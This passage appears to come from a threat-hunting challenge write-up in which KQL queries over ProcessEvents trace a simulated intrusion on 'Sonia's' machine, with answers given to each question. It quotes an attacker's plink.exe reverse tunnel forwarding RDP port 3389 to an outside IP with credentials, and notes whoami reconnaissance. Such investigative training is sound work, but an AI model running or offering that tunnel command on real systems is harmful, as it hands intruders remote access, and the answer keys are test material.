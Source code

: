 What ExecutionPolicy is set in the command?

> `Bypass`
> 

## Question 21

Check ProcessEvents for evidence of `plink.exe` being executed on `Sonia's` machine.

**What IP address is used when plink is executed?**

> `136.130.190.181`
> 

```sql
ProcessEvents
| where process_commandline contains "plink" and username == "sogose"
```

```sql
plink.exe -R 3389:localhost:3389 -ssh -l $had0w -pw thruthW!llS3tUfree 136.130.190.181
```

## Question 22

That's not good. 🫢 It looks like an attacker has established a connection to Sonia's computer from an external IP address.

**What username did the attacker use when connecting via plink?**

> `$had0w`
> 

## Question 23

**What password did the attacker use when connecting via plink?**

> `thruthW!llS3tUfree`
> 

## Question 24

Attackers use plink to establish a tunnel to a compromised machine. Now that the attackers have established a tunnel to Sonia's machine, they can manually run commands to do specific things on the device. This is called hands-on-keyboard activity.

![](https://miro.medium.com/v2/resize:fit:960/1*jMFarhXAMWCW6ygfVY9OGw.gif)

Let's look closer at this machine to find commands that the attackers may have run after establishing the tunnel.

**What six-letter command did the attackers run to figure out which user they are logged on as on the computer?**

> `whoami`
> 
